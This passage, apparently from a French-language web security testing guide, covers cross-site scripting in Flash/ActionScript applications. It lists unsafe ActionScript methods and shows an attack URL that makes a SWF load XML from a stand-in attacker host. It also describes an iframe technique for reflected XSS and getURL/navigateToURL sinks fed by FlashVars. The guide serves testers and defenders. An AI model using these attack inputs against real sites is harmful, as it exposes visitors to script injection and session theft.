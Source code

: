 ```actionscript
                            Locale.DEFAULT_LANG + '.xml');
    };
```

Le code ci-dessus pourrait être attaqué en demandant :

`http://victim/file.swf?language=http://evil.exemple.org/malicious.xml?`

### Méthodes dangereuses

Lorsqu'un point d'entrée est identifié, les données qu'il représente peuvent être utilisées par des méthodes non sûres. Si les données ne sont pas filtrées ou validées, cela pourrait entraîner certaines vulnérabilités.

Les méthodes non sûres depuis la version r47 sont :

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load( 'url' )`
- `LoadVars.load( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Exploitation par XSS réfléchi

Le fichier swf doit être hébergé sur l'hôte de la victime, et les techniques de XSS réfléchi doivent être utilisées. Un attaquant force le navigateur à charger un fichier swf pur directement dans la barre d'adresse (par redirection ou ingénierie sociale) ou en le chargeant via une iframe depuis une page malveillante :

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

Dans cette situation, le navigateur générera automatiquement une page HTML comme si elle était hébergée par l'hôte victime.

### GetURL (AS2) / NavigateToURL (AS3)

La fonction GetURL dans ActionScript 2.0 et NavigateToURL dans ActionScript 3.0 permettent à l'animation de charger un URI dans la fenêtre du navigateur. Si une variable indéfinie est utilisée comme premier argument pour getURL :

`getURL(_root.URI,'_targetFrame');`

Ou si une FlashVar est utilisée comme paramètre passé à une fonctionnavigationToURL :

```actionscript
var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(request);
```
